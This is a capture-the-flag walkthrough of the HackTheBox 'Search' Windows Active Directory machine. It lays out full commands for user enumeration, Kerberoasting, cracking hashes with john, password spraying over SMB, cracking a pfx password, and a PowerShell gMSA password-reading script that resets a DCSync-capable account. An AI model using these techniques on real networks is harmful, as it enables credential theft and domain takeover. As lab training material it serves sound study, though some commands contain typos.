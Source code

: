 ```yaml
---
title: Search @ HackTheBox - Complete Walkthrough
date: 2025-04-25 13:00:00 
last_modified_at: 2025-04-25 13:00:00
categories: [HTB Machines,Windows Machines]
tags: [active directory,domain controller,responder,ntlm,SPN,DCSync,hack the box,GMSA,adc,kerberoasting,penetration testing,cybersecurity,walkthrough]     # TAG names should always be lowercase
comments: true
image:
  path: /./media/post4/Search.png
  alt: "Search Machine - HackTheBox Windows Active Directory Challenge"
author: Ahmed BAHYA
excerpt: "Complete walkthrough of the Search machine on HackTheBox. Learn Active Directory enumeration, Kerberoasting, password reuse, and privilege escalation techniques in this Windows domain controller challenge."
description: "Step-by-step walkthrough of the Search machine on HackTheBox. Master Active Directory enumeration, Kerberoasting attacks, password reuse exploitation, and privilege escalation techniques in this comprehensive cybersecurity challenge guide."
keywords: [hackthebox, search machine, active directory, domain controller, kerberoasting, password reuse, penetration testing, cybersecurity, walkthrough, windows, enumeration, privilege escalation, gmsa, spn]
canonical_url: https://b2hu.me/posts/Search-HTB-Walkthrough
---
```

Hello, this my walkthroght version about the Search Box in @HTB
## Enumeration
### nmap
```shell
sudo nmap -sC -sV -p$ports -oN tcp_scan $IP
```
couple of ports indicated the target is a domain controller hosting the domain (search.htb)
```shell
echo '10.1O.10.129 search.htb' | suod tee -a /etc/hosts
```
the DC also hosts an IIS web server port 443 so we'll start by that.
### IIS Server
looking at the IIS server that hosts the company search.htb website, we coul find some sensitive information disclosure in one of the hosted images :
![screen_1](/./media/post4/inf_disc.png)
- the account Hope Sharp has a password of: **IsolationIsKey?**

the server also has some interesting endpoint that were found using gobuster :
```shell
gobuster dir -u http://search.htb/ -w /usr/share/SecLists-master/Discovery/Web-Content/Web-Servers/IIS.txt

/certenroll/          (Status: 403) [Size: 1233]
/certsrv/             (Status: 401) [Size: 1293]
/certsrv/mscep/mscep.dll (Status: 401) [Size: 1293]
/certsrv/mscep_admin  (Status: 401) [Size: 1293]
/images/              (Status: 403) [Size: 1233]
```
but access to this endpoint (ex: /staff) was denied and requested some sort of authentication :
![screen_2](/./media/post4/staff.png)
## Gaining a foothold 
after this i have created a list of possible usernames using a python script :
![screen_3](/./media/post4/pss_names.png)
then we can test those usernames if they are valid or not using **kerberute** tool :
```shell
sudo /opt/kerbrute/dist/kerbrute_linux_amd64 userenum --dc 10.10.11.129 -d search.htb ./possible_usernames.txto
```
we can siee that username **hope.sharp** was valid, so for now the we have got the credentials of the username **hope.sharp : IsoloationIsKey?**

Let's try to dump the LDAP database using ldapdomaindump. Remember, any user in Active Directory Domain Services (ADDS) can enumerate and dump domain objects, regardless of their privilege level.
```shell
ldapdomaindump -u search.htb\\hope.sharp -p IsolationIsKey 10.10.11.129
```
looking at the domain users we found an interesting service account :
![screen_4](/./media/post4/web_svc.png)
so lets try some kerberoasting, we first use our hope.sharp creds to find the required SPN, for this we’ll use impacket **GetUserSPNs** script.
```shell
impacket-GetUserSPNs search.htb/hope.sharp:IsolationIsKey? -dc-ip 10.10.11.129 -request
<SNIP>
[-] CCache file is not found. Skipping...
$krb5tgs$23$*web_svc$SEARCH.HTB$search.htb/web_svc*$117889ac179117edc...
<SNIP>
```
and after we got the **TGS** we’ll crack it using john :
```shell
john --wordlist=/usr/share/wordlists/rockyou.txt tgs.txt 
```
so now we have the password of this service account **web_svc : @3ONEmillionbaby**

after mutiple failed attempts of trying some attack vectors i opted for the password reuse since the web_svc was created by the helpdesk group users
```shell
grep "HelpDesk User" domain_users.grep | awk -F'\t' '{print $3}'
Isabela.Estrada
Keith.Hester
Chanel.Bell
Edgar.Jacobs
Lane.Wu
```
this command gave us all the possible accounts the password reuse may work on, because they are all in the HelpDesk group, so lets try a for loop seeing which account might this work 
```shell
for u in Isabela.Estrada Keith.Hester Chanel.Bell Edgar.Jacobs Lane.Wu; do smbmap -u $u -p @3ONEmillionbaby -d search -H 10.10.11.129 --no-banner --no-color 
```
looks like our user **Edgar.Jacobs** a fan of repeating his password in many accounts ( trust me i do that all the time), throught the SMB Enumeration we can see a folder that could be useful : **RedirectedFolders$** 
```shell
smbclient //search.htb/RedirectedFolders$ -U "Edgar.Jacobs"
```
while searching inside the share, i found the user.txt flag inside sierra.frye account, but not enough permessions to get the file :
```shell
smb: \> ls sierra.frye\
  .                                  Dc        0  Wed Nov 17 20:01:46 2021
  ..                                 Dc        0  Wed Nov 17 20:01:46 2021
  Desktop                           DRc        0  Wed Nov 17 20:08:00 2021
  Documents                         DRc        0  Fri Jul 31 10:42:19 2020
  Downloads                         DRc        0  Fri Jul 31 10:45:36 2020
  user.txt                           Ac       33  Wed Nov 17 19:55:27 2021

                3246079 blocks of size 4096. 767375 blocks available
smb: \> get sierra.frye\user.txt 
NT_STATUS_ACCESS_DENIED opening remote file \sierra.frye\user.txt
```
still looking for something useful i found this interesting file in edgar.jacobs desktop folder :
```shell
mb: \edgar.jacobs\Desktop\> ls
  .                                 DRc        0  Mon Aug 10 06:02:16 2020
  ..                                DRc        0  Mon Aug 10 06:02:16 2020
  $RECYCLE.BIN                     DHSc        0  Thu Apr  9 16:05:29 2020
  desktop.ini                      AHSc      282  Mon Aug 10 06:02:16 2020
  Microsoft Edge.lnk                 Ac     1450  Thu Apr  9 16:05:03 2020
  Phishing_Attempt.xlsx              Ac    23130  Mon Aug 10 06:35:44 2020

                3246079 blocks of size 4096. 767371 blocks available
smb: \edgar.jacobs\Desktop\> get Phishing_Attempt.xlsx 
getting file \edgar.jacobs\Desktop\Phishing_Attempt.xlsx of size 23130 as Phishing_Attempt.xlsx (95.3 KiloBytes/sec) (average 95.3 KiloBytes/sec)
```
i opened the file with libreoffice, and it seemed that the **c** column is password protected, but using the name box and typing C9 i could see sierra.frye password : 
![screen_5](/./media/post4/password.png)
now lets connect to the RedirectedFolders$ share as sierra.frye and get the user.txt.
## PrivEsc
while looking inside sierra.frye folder i noticed some certificate’s backup inside **/Downloads/Backups**
```shell
smb: \sierra.frye\Downloads\Backups\> ls
  .                                 DHc        0  Mon Aug 10 16:39:17 2020
  ..                                DHc        0  Mon Aug 10 16:39:17 2020
  search-RESEARCH-CA.p12             Ac     2643  Fri Jul 31 11:04:11 2020
  staff.pfx                          Ac     4326  Mon Aug 10 16:39:17 2020

                3246079 blocks of size 4096. 767785 blocks available
```
nice, now we upload this cert to firefox certifications and access https://search.htb/staff, but before that the certificate is password-protected so we need some crack, i mean to crack the password :
```shell
python3 `which pfx2john ` staff.pfx  > staff.hash

john --wordlist=/usr/share/wordlists/rockyou.txt staff.hash 
Using default input encoding: UTF-8
Loaded 1 password hash (pfx, (.pfx, .p12) [PKCS#12 PBE (SHA1/SHA2) 128/128 AVX 4x])
Cost 1 (iteration count) is 2000 for all loaded hashes
Cost 2 (mac-type [1:SHA1 224:SHA224 256:SHA256 384:SHA384 512:SHA512]) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:02:39 16.24% (ETA: 13:18:04) 0g/s 16031p/s 16031c/s 16031C/s yusay13..yurirey
0g 0:00:03:38 23.41% (ETA: 13:17:16) 0g/s 16279p/s 16279c/s 16279C/s starr-1..starmagic7681
misspissy        (staff.pfx)     
1g 0:00:05:26 DONE (2025-04-24 13:07) 0.003065g/s 16815p/s 16815c/s 16815C/s missprin1956..missnono
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
the password is **misspissy**
looking at the /staff :
![screen_6](/./media/post4/staff_2.png)
enter sierra.frye creds, after that we’ll get a webshell to the research computer.

now we can start enumerating the domain using sierra.frye user account, and by exploiting sharphound ingestor we could fin this relationship from bloodhound by choosing **Shortest Paths from Owned Principals** :
![screen_7](/./media/post4/bh_1.png)
and the user tristan.davies has a DCSync right over the domain :
![screen_8](/./media/post4/bh_2.png)

sierra.frye is a member of the **ITSEC group**, which has **ReadGMSAPassword** rights on the **BIR-ADFS-GMSA$** group managed service account. This account, in turn, has **GenericAll** rights on tristan.davies ,which has DCSync rights on the domain.

use this code below to retrieve the GMSA Password and use it to force password change of tristian.davies :
```shell
$gmsa = Get-ADServiceAccount -Identity bir-adfs-gmsa -Properties 'msds-managedpassword'
$mp = $gmsa.'msds-managedpassword'
$mp1 = ConvertFrom-ADManagedPasswordBlob $mp
$user = 'BIR-ADFS-GMSA$'
$passwd = $mp1.'CurrentPassword'
$secpass = ConvertTo-SecureString $passwd -AsPlainText -Force
$cred = new-object system.management.automation.PSCredential $user,$secpass
Invoke-Command -computername 127.0.0.1 -ScriptBlock {Set-ADAccountPassword -Identity
tristan.davies -reset -NewPassword (ConvertTo-SecureString -AsPlainText 'Password123'
-force)} -Credential $cred
```
we then connect to tristian.davies using his new creds :

```shell
wmiexec.py 'search/tristan.davies:Password123@10.10.11.129'
```
after this you can easily get the root flag.